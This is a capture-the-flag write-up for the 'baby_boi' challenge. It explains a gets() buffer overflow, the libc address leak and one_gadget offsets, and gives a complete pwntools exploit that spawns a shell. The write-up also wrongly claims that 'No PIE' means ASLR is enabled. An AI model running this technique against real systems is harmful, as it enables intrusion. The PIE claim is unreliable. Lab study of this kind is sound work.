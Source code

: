 # 3: Baby_boi

First Written: 6.4.2020

Last Updated: 6.4.2020

This problem may seem intimidating at first. We are given the binary, the source code, and a .so file. 

## Steps to pwn 

Let's run the given binary a few times and see what it does.

```
./baby_boi 
Hello!
Here I am: 0x7f48f0219e80

```

Note the following:
- The address listed after "Here I am:" changes each time we run the binary
- The binary prompts us for input after it gives us an address, but then it doesn't seem to do anything

After running the binary, let's run the usual *file* and *checksec* commands to gather some more information. 

Output of *file*:
```
file baby_boi 
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
```

Output of checksec: 
```
 checksec baby_boi
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Note the following:
- The binary is 64-bits, meaning that we are dealing with 64-bit registers. 
- The binary is dynamically linked, meaning that it uses a shared library (it pulls code from outside sources in order to run). 
- NX (non-executable stack) is enabled, so no shellcode here. 
- No PIE means that ASLR is enabled. This is why the address the program gives us always changes (the location of libc will always change in memory). 

Now let's examine the source code: 
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

Note the following: 
- Using printf and %p, the binary prints the location of printf in memory
- gets is used, which is a function that is **super** vulnerable to buffer overflows and shouldn't be used in modern practice 
- 32 bytes is allocated for the gets input from the user

While the location of the libc file always changes everytime the binary is run, what doesn't change is function offsets. Let's find the offset of the printf function, as the binary already tells us where printf is in memory once we run it. 

A function offset is its location in the libc file relative to where the libc file starts. 

To find a function offset in libc you can do one of the following:
-> use readelf and search for the function name 
```
readelf -s libc-2.27.so | grep ' printf@'
   627: 0000000000064e80   195 FUNC    GLOBAL DEFAULT   13 printf@@GLIBC_2.2.5
```

-> use pwntools, which makes life easy, as you don't have to hardcode most values
```
from pwn import * 
libc = ELF("./libc-2.27.so")
print(libc.symbols["printf"])
```

We also want to spawn a shell. This is often done by calling execve("/bin/sh"). I will be linking an alternative way to do this than what is being discussed in this writeup, but we will be using the lazier way for this one. 

The "lazier" way is by using the [OneGadget](https://github.com/david942j/one_gadget) tool to find a one-liner ROP (return oriented programming) gadget in libc. 

```
one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

OneGadget found three instances of a one-liner ROP Gadget that will call execve("/bin/sh"), but since we have not run the binary yet, we only have the ROP Gadgets' offsets from the libc base, not its actual location in memory. 
  

The equation to find the address of the ROPGadget in memory will look like this: 
```
ROPGadget address = libc_base + offset
```

We will use the offset 0x4f2c5.

It seems that all is left is to compute where libc is memory once we execute the binary. When we execute the binary, it gives us the location of printf, and we have already found the offset of printf in libc.

The equation to find the address of libc in memory will look like this: 
```
libc base address = printf_location_in_memory - printf_offset
```

Knowing this, let's write our exploit, keeping in mind that we will be taking advantage of a buffer overflow vulnerability (which I will not be explaning in detail here, but I will link to resources at the end of the writeup).

Exploit:
```
from pwn import *

#start the process
r = process('./baby_boi')

#use ELF to store libc so we don't have to hardcode most values
libc = ELF("./libc-2.27.so")

r.recvuntil('I am:')

#get the location of printf in memory based off of what the binary tells us, and conver the hex value to decimal 
printf_address = int(r.recvuntil("\n"), 16)

#compute the location of libc in memory using the location of printf and its offset in libc
libc_base = printf_address - libc.symbols["printf"]

#offset of the oneGadget we found using the oneGadget tool 
one_gadget = 0x4f2c5

#compute the address of the oneGadget in memory
one_gadget_address = libc_base + one_gadget

#create our evil input, 40 A's overflows the buffer and overwrites RBP, and then we eat into the return address to hijack RIP
evil = "A"*40 + p64(one_gadget_address)

r.sendline(evil)
r.interactive()
```

## Extra resources to feed the brain
https://en.wikipedia.org/wiki/GNU_C_Library
https://superuser.com/questions/71404/what-is-an-so-file
https://www.thegeekstuff.com/2012/06/linux-shared-libraries/
https://blog.vero.site/post/baby-boi
https://tasteofsecurity.com/security/ret2libc-unknown-libc/

**big creds to the below writeup for being super helpful, concise, everything nice**
https://cesena.github.io/2019/09/16/baby-boi/ 

## TODO:
- format the links
